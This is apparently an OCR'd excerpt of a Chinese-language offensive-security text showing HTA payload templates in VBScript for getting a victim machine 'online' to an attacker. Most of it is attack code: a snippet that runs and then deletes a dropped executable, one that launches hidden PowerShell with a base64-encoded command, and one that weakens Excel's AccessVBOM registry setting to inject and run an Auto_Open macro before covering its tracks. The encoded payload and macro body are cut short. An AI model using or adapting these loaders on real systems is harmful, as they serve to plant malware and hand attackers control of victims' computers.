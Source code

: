 ```html
        var_shell.run var_tempexe, 0, true
        var_obj.DeleteFile(var_tempexe)
        var_obj.DeleteFolder(var_basedir)
    End Function

    var_func
    self.close
</script>
```

PowerShell 也是 VBScript 脚本不过 Wscript.Shell 运行的是 PowerShell 程序，其执行的内容经过 Base64 编码。

```html
<script language="VBScript">
    Function var_func()
        Dim var_shell
        Set var_shell = CreateObject("Wscript.Shell")
        var_shell.run "powershell -nop -w hidden -encodedcommand JABzAD0ATgBlAHcALQBPAGIAagBlAG......MAdAAgAEkAoACkAOwA=", 0, true
    End Function
    var_func
    self.close
</script>
```

VBS 将执行 Excel 宏上线。过程是修改注册表信任 Excel 宏，并执行宏，最后恢复注册表。

```html
<html><head><script language="vbscript">
Dim objExcel, WshShell, RegPath, action, objWorkbook, xlmodule

Set objExcel = CreateObject("Excel.Application")
objExcel.Visible = False

Set WshShell = CreateObject("Wscript.Shell")

function RegExists(regKey)
    on error resume next
    WshShell.RegRead regKey
    RegExists = (Err.number = 0)
end function

' Get the old AccessVBOM value
RegPath = "HKEY_CURRENT_USER\Software\Microsoft\Office\" & objExcel.Version & "\Excel\Security\AccessVBOM"

if RegExists(RegPath) then
    action = WshShell.RegRead(RegPath)
else
    action = ""
end if

' Weaken the target
WshShell.RegWrite RegPath, 1, "REG_DWORD"

' Run the macro
Set objWorkbook = objExcel.Workbooks.Add()
Set xlmodule = objWorkbook.VBProject.VBComponents.Add(1)
xlmodule.CodeModule.AddFromString "Private "......"
objExcel.DisplayAlerts = False
on error resume next
objExcel.Run "Auto_Open"
objWorkbook.Close False
objExcel.Quit

```